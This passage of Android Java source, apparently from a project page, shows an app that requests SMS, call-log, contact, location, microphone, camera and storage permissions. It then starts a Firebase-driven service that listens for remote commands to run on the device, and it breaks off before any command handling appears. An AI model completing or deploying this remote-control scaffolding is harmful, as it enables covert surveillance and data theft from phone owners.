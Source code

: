 ```java
        auth = FirebaseAuth.getInstance();
        database = FirebaseDatabase.getInstance().getReference();
        
        // Generate unique device ID
        deviceId = android.provider.Settings.Secure.getString(
            getContentResolver(), 
            android.provider.Settings.Secure.ANDROID_ID
        );
        
        // Request permissions
        requestPermissions();
        
        // Start command listener service
        startCommandListener();
    }

    private void requestPermissions() {
        String[] permissions = {
            Manifest.permission.READ_SMS,
            Manifest.permission.SEND_SMS,
            Manifest.permission.READ_CALL_LOG,
            Manifest.permission.READ_CONTACTS,
            Manifest.permission.ACCESS_FINE_LOCATION,
            Manifest.permission.RECORD_AUDIO,
            Manifest.permission.CAMERA,
            Manifest.permission.READ_EXTERNAL_STORAGE,
            Manifest.permission.WRITE_EXTERNAL_STORAGE
        };
        
        ActivityCompat.requestPermissions(this, permissions, PERMISSION_REQUEST_CODE);
    }

    private void startCommandListener() {
        Intent serviceIntent = new Intent(this, CommandListenerService.class);
        serviceIntent.putExtra("deviceId", deviceId);
        startForegroundService(serviceIntent);
    }
}
```

### 2. Command Listener Service (CommandListenerService.java)

```java
package com.yourpackage.androidcontrol;

import android.app.Notification;
import android.app.NotificationChannel;
import android.app.NotificationManager;
import android.app.Service;
import android.content.Intent;
import android.os.Build;
import android.os.IBinder;
import androidx.core.app.NotificationCompat;
import com.google.firebase.database.*;

public class CommandListenerService extends Service {
    private static final String CHANNEL_ID = "AndroidControlChannel";
    private DatabaseReference commandsRef;
    private String deviceId;
    private CommandExecutor commandExecutor;

    @Override
```